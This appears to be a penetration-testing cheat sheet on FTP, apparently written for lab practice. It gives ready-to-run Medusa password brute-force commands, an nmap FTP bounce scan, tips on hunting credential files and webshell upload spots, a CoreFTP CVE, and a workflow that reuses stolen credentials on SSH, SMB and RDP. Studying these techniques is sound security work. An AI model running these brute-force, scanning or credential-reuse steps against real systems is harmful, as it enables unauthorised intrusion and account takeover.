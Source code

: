 # FTP

## Common Attacks

### Brute forcing with Medusa (example)

```bash
# single user
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp

# multi-user, custom port, threaded
medusa -U users.list -P passwords.list -h 10.129.203.6 -n 2121 -M ftp -t 10
```

### FTP Bounce (proxying scan through an FTP server)

```bash
# Use anonymous FTP as bounce to scan target host
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

## Enumeration & Tips

- Always check for anonymous login and list directories (`ftp`, `smbclient`, or `curl`/`wget` for HTTP-style listings).
- Try common alternative ports (e.g., 2121, 30021) if standard port 21 is closed.
- If you find user directories, grep for config/creds files and common filenames: `creds.txt`, `notes.txt`, `mynotes.txt`, `backup*.zip`.
- When FTP serves webroot directories (e.g., `C:\xampp\htdocs`), look for `test.php`, `docs.txt`, or webshell upload opportunities.

## Known Vulnerabilities

- CoreFTP Server Version 2.0 build 727 — CVE-2022-22836 (investigate exploitable paths and proof-of-concept availability).

## Example Workflow

1. `nmap -sV -p21,2121,30021 <target>`
2. Attempt anonymous login: `ftp <ip> <port>` → `anonymous` / `anonymous`
3. If files present, download and scan for plaintext credentials or hints.
4. If credentials found, attempt SSH/SMB/RDP with discovered usernames/passwords.
